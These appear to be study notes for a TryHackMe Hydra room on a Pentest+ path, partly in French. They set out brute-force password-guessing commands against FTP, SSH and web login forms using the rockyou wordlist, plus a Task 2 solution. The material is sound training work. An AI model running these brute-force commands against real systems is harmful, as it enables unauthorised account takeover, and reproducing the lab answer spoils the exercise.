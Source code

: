 ## PATH : Comptia pentest+

## [Hydra - ROOM](https://tryhackme.com/room/hydra)


It is a software which enables to perfom brute force over a 

Generally the passworld list is rockyoutxt stored here : /usr/share/wordlists/rockyou.txt

Example : 
* `ftp` : hydra -l user -P passlist.txt ftp://10.10.12.179

* `ssh` : hydra -l <username> -P <full path to pass> 10.10.12.179 -t 4 ssh

        servicesOption   |	Description
        _____________________________
        -l	           | specifies the (SSH) username for login
        _______________________________
        -P	           | indicates a list of passwords
        _________________________________
        -t	           | sets the number of threads to spawn   
or

* `ssh` : `hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.207 ssh`

*   `Post web form` : sudo hydra -l <username> -P <wordlist> 10.10.12.179 http-post-form "<path>:<login_credentials>:<invalid_response>"

            Option |	Description
            -l	   | the username for (web form) login
            -P	   | the password list to use http-post-form	the type of the form is POST
            <path> |  the login page URL, for example, login.php
            <login_credentials> |	the username and password used to log in, for example, username=^USER^&password=^PASS^
            <invalid_response>	| part of the response when the login fails
            -V	verbose output for every attempt

A more concrete example :

    hydra -l <username> -P <wordlist> 10.10.12.179 http-post-form "/endpoint:username=^USER^&password=^PASS^:F=incorrect" -V

-  The login page is only /, i.e., the main IP address.
- The username is the form field where the username is entered
- The specified username(s) will replace ^USER^
- The password is the form field where the password is entered
- The provided passwords will be replacing ^PASS^
- Finally, F=incorrect is a string that appears in the server reply when the login fails


Tips : 
* Utiliser BurpSuite pour intercepter la requête et voir quels champs sont envoyés (username ? login ?  && password ?)
* Ensuite on Il faut remplace /endpoint par le endpoint sur lequel le post doit être fait.

#### Solution Task 2 
1. hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.179 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

2. 

